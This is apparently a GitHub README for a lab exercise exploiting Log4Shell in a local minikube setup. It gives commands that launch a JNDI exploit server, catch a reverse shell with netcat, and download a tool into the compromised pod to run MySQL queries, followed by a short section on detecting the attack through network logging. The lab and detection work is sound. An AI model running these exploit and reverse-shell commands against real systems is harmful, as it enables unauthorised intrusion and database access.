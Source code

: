 
Once you've done the setup in the readme_original

## how to exploit 
launch this command with the file present in the exploit/ folder
```
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i host.minikube.internal -p 8080
```

then launch this command 

```
ruby ./script/exploit.rb & nc -lv 3000
```

you should get a shell on the machine

## how to execute mysql command


we need mysql client. but there is no internet on the pod

launch a php server next to the file `mysql_utlis.jar` with the command

```
php -S 0.0.0.0:8000
```

then from the server where you have a reverse shell download the tool I build in java with `wget`
I choosed this way for doing mysql request because the VM doesn't have internet and it's impossible to install some packet or really difficult 
So I built a little java binary that can make mysql request and display it from a tutorial I found on internet because I'm not a java developer at all. That was my first java program.  

```
wget host.minikube.internal:8000/mysql_utils.jar
```

inside the pod you can make query by using the tool this way:

``` 
java -jar mysql_utlis.jar db_name mysql_request 
```

To prove I did some sql request let's do some capture

```
java -jar mysql_utils.jar mysql "show databases;"
```

![screen_capture](images/screen_capture_mysql_request.png)

```
java -jar mysql_utils.jar sys "show columns from user_summary;"
```

![screen_capture](images/screen_capture_mysql01.png)

# Question

## How could we detect this exploit
The answer may vary because of what the server have to do on a regulary basis. But the simpliest solution is probably this: 
The exploit involve that the server, which use the Log4j library vulnerable, make some ldap / rmi / http request. If you log the network somewhere you should be able to see that request from the server. So you could say that every time your server make that kind of request himself to an IP you don't know as an ldap rmi or http server you own. This is the things where you can detect the exploit. you can't really hide or make this exploit works other way. 

An organisation should always log his network and check for scetchy behaviour on it. Snort is a good tool to do this. 
If you know that you own a log4j component vulnerable that you won't fix, you should start to do this.

## How to prevent without fix








